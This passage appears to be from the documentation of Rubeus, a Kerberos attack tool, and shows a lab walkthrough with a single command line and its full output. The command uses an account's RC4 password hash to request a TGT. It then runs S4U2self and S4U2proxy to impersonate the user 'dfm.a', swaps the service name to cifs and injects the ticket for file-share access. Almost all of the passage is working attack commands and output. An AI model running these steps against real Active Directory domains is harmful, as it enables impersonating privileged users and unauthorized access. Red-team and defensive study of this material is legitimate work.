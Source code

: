           doIGujCCBragAwIBBaEDAgE...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

Alternatively using a /user and /rc4 :

    C:\Temp\tickets>dir \\primary.testlab.local\C$
    The user name or password is incorrect.

    C:\Temp\tickets>Rubeus.exe s4u /user:patsy /domain:testlab.local /rc4:602f5c34346bc946f9ac2c0922cd9ef6 /impersonateuser:dfm.a /msdsspn:LDAP/primary.testlab.local /altservice:cifs /ptt

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 602f5c34346bc946f9ac2c0922cd9ef6
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

          doIE+jCCBPagAwIBBaEDAg...(snip)...

    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*]   Impersonating user 'dfm.a' to target SPN 'LDAP/primary.testlab.local'
    [*]   Final ticket will be for the alternate service 'cifs'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Building S4U2proxy request for service: 'LDAP/primary.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2618 bytes
    [*] Received 1798 bytes
    [+] S4U2proxy success!
    [*] Substituting alternative service name 'cifs'
    [*] base64(ticket.kirbi):
